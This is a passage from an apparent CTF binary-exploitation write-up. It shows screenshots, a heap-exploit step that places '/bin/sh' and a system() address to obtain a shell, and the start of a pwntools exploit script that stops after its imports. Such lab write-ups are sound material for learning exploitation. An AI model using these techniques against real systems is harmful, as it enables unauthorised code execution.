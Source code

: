 [![](assets/1700186924-72f5fca32983409c2bc97913a8ff5922.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163041-6d8cddb8-845a-1.png)

‍

```bash
add(0x80,'/bin/sh\x00')

    add(0x80,p64(sys_addr))
```

[![](assets/1700186924-0da703a4bb21ff1bbde9cacf13272975.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163047-70fb2112-845a-1.png)

[![](assets/1700186924-46b787934413c609473a394be0c5e76a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163051-73c772f6-845a-1.png)

‍

##### exp：

```bash
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *
```